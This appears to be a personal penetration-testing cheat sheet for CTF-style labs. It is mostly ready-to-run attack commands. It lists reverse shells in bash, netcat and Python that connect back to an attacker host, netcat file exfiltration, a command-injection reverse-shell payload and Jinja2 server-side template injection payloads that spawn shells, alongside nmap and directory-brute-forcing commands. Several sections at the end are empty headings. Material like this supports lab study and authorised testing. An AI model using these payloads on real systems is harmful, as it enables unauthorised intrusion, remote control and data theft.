 # Cheat sheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://i.pinimg.com/originals/2a/db/1e/2adb1e4dbe67ce0ff39c4b080f015aa3.jpg)

# Useful Commands

## Create web server

* #### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

## Upgrade reverse shell

* #### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

* #### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Send files

* #### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

* #### With web server

*Kali:*
```
python3 -m http.server 8888 
python -m SimpleHTTPServer 8888
```

*Victim:*
```
wget http://10.10.10.10:8888/script.sh -O script.sh
```

* #### With SCP

*Copy from Victim*
```
scp user@10.10.10.77:/home/user/file.txt /home/kali/
```

*Copy to Victim* 
```
scp -r /home/kali/file.txt user@10.10.10.77:/home/user/
```

## Reverse shells [:octocat:](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

* #### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.28/5555 0>&1'
```

* #### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

* #### With python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* #### Listener

```
nc -lvp 4444
```

## Enumeration

* #### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

## If Web Server

### Brute dir with extensions

* #### GoBuster

```
gobuster dir -e -u http://academy.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,txt,htm,html,phtml,js,zip,rar,tar -s 200,302
```

* #### FuFF

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://academy.htb/FUZZ -e php,txt,htm,html,phtml,js,zip,rar,tar -mc 200,302
```

### VHOST Discovery

* #### FuFF

```
ffuf -w subdomains-top1million-110000.txt -u https://10.10.10.77/ -H "Host:FUZZ.10.10.10.77"
```

### CSRF

Check CSRF

```
<a href="http://10.10.10.10:4444">MyURL</a>
```

Reverse shell

```
http://10.10.10.10/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.10.10'$IFS'4444')
```

### SSTI [:octocat:](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

![](https://gblobscdn.gitbook.com/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M7O4Hp6bOFFkge_yq4G%2F-M7OCvxwZCiaP8Whx2fi%2Fimage.png?alt=media&token=4b40cf58-5561-4925-bc86-1d4689ca53d1)

* #### Check Jinja2

```
{{7*'7'}} would result in 7777777
{{config.items()}}
```

Reverse shell

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'").read()}}{%endif%}{%endfor%}
```

```
{{request.application.globals.builtins.import('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"').read()}}
```

* #### Check Twig

```
{{7*'7'}} would result in 49
{{dump(app)}}
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References

